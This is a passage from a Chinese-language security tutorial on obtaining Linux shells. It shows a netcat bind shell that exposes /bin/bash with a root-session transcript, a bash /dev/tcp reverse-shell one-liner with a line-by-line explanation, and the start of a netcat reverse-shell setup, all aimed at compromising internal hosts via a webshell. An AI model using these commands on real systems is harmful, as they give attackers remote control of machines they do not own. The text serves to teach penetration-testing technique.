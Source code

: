 ```
至此我们已经安装完成原生版本的 netcat工具，有了netcat -e参数，我们就可以将本地bash完整发布到外网了。  

```

**1.2 开启本地监听**

```
`# 开启本地8080端口监听，并将本地的bash发布出去。``root# nc -lvvp 8080 -t -e /bin/bash`
```

**1.3 直接连接目标主机**

```
`root@kali:~# nc 192.168.31.41 8080``whoami``root``w` `22:57:36 up  1:24,  0 users,  load average: 0.52, 0.58, 0.59``USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHA`
```

```
  

```

**二、场景二**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t0130dbc4bb61a6f6bd.png")

目标主机为一个内网主机，并没有公网IP地址，我们无法从外网发起对目标主机的远程连接，此时我们使用的方法是使用获取的webshell主动发起一个反弹的shell到外网，然后获取一个目标主机的shell终端控制环境，而有关shell反弹的方法有很多这里简单介绍几种比较常见的方法。

**2.1 bash 直接反弹**

bash一句话shell反弹：个人感觉最好用的用的方法就是使用的方法就是使用bash结合重定向方法的一句话，具体命令如下。

（1） bash反弹一句话

```
root# bash -i >& /dev/tcp/192.168.31.41/8080 0>&1
```

（2）bash一句话命令详解

以下针对常用的bash反弹一句话进行了拆分说明，具体内容如下。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t013e425e5510c369cc.png")

其实以上bash反弹一句完整的解读过程就是：

bash产生了一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即TCP 8080 会话连接）相结合，然后在重定向个tcp 8080会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。

**2.2 netcat 工具反弹**

Netcat 一句话反弹：Netcat反弹也是非常常用的方法，只是这个方法需要我们手动去安装一个NC环境，前面已经介绍默认的linux发型版现在自带的NC都是被阉割过来，无法反弹一个bash给远端，所以相对上面的bash一句话反弹显得就繁琐很多，同时通过实际测试发现NC反弹的shell交互性也差很多，后面会具体说道，这里就不多说了。

**（1）开启外网主机监听**

```
`root@kali:~# nc -lvvp 8080``listening on [any] 8080 ...`
```
